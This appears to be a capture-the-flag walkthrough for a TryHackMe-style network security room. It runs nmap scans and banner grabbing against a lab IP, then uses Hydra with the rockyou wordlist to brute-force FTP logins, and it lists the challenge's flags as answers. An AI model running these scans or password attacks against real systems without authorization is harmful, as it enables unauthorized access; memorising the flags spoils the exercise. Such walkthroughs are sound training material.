



# Net Sec Challenge Walkthrough

**Target IP:** `10.49.168.164`

---

# 1. What is the highest port number being open less than 10,000?

Run a full TCP scan with service and version detection.

```bash
nmap -sC -sV -p- 10.49.168.164
````

### Scan Result

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH_8.2p1
80/tcp    open  http        lighttpd
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
8080/tcp  open  http        Node.js (Express middleware)
10021/tcp open  ftp         vsftpd 3.0.5
```

The highest open port **below 10,000** is:

**Answer:** `8080`

---

# 2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?

From the scan results:

```
10021/tcp open ftp vsftpd 3.0.5
```

**Answer:** `10021`

---

# 3. How many TCP ports are open?

From the scan results:

```
22
80
139
445
8080
10021
```

Total open TCP ports = **6**

**Answer:** `6`

---

# 4. What is the flag hidden in the HTTP server header?

Use `curl` to inspect the HTTP response headers.

```bash
curl -I http://10.49.168.164
```

Example output:

```
Server: lighttpd THM{web_server_25352}
```

The flag is located inside the **server header**.

**Answer:** `THM{web_server_25352}`



---

# 5. What is the flag hidden in the SSH server header?

Retrieve the SSH banner using `netcat`.

```bash
nc 10.49.168.164 22
```

Output:

```
SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
```

**Answer:** `THM{946219583339}`



---

# 6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

From the Nmap scan:

```
10021/tcp open ftp vsftpd 3.0.5
```

**Answer:** `vsftpd 3.0.5`

---

# 7. Social Engineering Credentials

Two usernames were discovered through social engineering:

```
eddie
quinn
```

We brute force the FTP service using **Hydra**.

---

### Brute Force: eddie

```bash
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.49.168.164:10021
```

Result:

```
Username: eddie
Password: jordan
```


---

### Brute Force: quinn

```bash
hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://10.49.168.164:10021
```

Result:

```
Username: quinn
Password: andrea
```



---

### Connect to FTP

```bash
ftp 10.49.168.164 10021
```

Login using the discovered credentials and list files:

```bash
ls
```

Download the flag file:

```bash
get ftp_flag.txt
```

Output:

```
229 Entering Extended Passive Mode
150 Opening BINARY mode data connection for ftp_flag.txt
226 Transfer complete
```

The downloaded file contains the **FTP flag**.

---

# 8. Port 8080 Web Challenge

Browse to:

```
http://10.49.168.164:8080
```

The webpage presents a networking challenge.

Run a **NULL scan** using Nmap:

```bash
sudo nmap -sN 10.49.168.164
```

The scan output reveals the required flag.

**Answer:** `FLAG_HERE`

---
